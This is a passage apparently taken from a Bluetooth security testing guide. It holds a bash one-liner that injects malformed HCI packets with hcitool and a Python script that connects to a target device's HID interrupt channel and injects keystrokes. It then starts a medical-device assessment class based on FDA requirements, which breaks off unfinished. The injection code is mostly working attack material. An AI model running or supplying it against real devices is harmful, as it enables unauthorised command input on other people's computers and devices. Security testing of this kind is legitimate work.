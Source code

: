 #### 2. **Bluetooth Packet Injection**
```bash
# Inject malformed packets
echo "01 04 10 01 01" | xxd -r -p | hcitool cmd 0x01 0x0006
```

#### 3. **HID Device Exploitation**
```python
#!/usr/bin/env python3
"""
HID Device Keystroke Injection
"""

import bluetooth

def inject_keystrokes(target_mac, keystrokes):
    """Inject keystrokes into HID device"""
    try:
        # Connect to HID interrupt channel
        sock = bluetooth.BluetoothSocket(bluetooth.L2CAP)
        sock.connect((target_mac, 0x11))  # HID interrupt channel
        
        # Send HID report
        for keystroke in keystrokes:
            hid_report = create_hid_report(keystroke)
            sock.send(hid_report)
            
        sock.close()
        return True
        
    except Exception as e:
        print(f"Keystroke injection failed: {e}")
        return False

def create_hid_report(key):
    """Create HID keyboard report"""
    # HID report format: [Modifier, Reserved, Key1, Key2, Key3, Key4, Key5, Key6]
    modifier = 0x00
    key_code = ord(key.upper()) - ord('A') + 0x04  # Convert to HID key code
    
    return bytes([0xA1, 0x01, modifier, 0x00, key_code, 0x00, 0x00, 0x00, 0x00, 0x00])
```

## Medical Device Security Testing

### FDA Guidelines Implementation
```python
#!/usr/bin/env python3
"""
Medical Device Bluetooth Security Assessment
Based on FDA Cybersecurity Guidelines
"""

class MedicalDeviceSecurityTester:
    def __init__(self):
        self.fda_requirements = {
            'encryption': 'AES-256 minimum',
            'authentication': 'Mutual authentication required',
            'key_management': 'Regular key rotation',
            'audit_logging': 'All access must be logged'
        }
    
    async def assess_medical_device(self, device):
```